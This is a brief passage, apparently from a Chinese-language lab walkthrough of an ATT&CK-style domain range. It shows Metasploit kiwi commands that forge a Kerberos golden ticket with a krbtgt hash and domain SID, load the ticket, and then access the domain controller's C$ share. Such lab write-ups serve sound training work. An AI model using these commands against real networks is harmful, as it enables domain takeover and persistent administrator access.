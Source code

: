 本次使用的是kiwi模块，没有使用mimikatz，都可在msf中完成

```c
load kiwi
golden_ticket_create -d de1ay.com -k 82dfc71b72a11ef37d663047bc2088fb -u administrator -s S-1-5-21-2756371121-2868759905-3853650604 -t /root/administrator.ticket
kerberos_ticket_use /root/administrator.ticket
```

此时再去访问DC成功

```c
dir \\DC\c$
```

![Untitled](ATT&CK-2%204ee62577f68b4c6f932f048639d26d48/Untitled%2023.png)
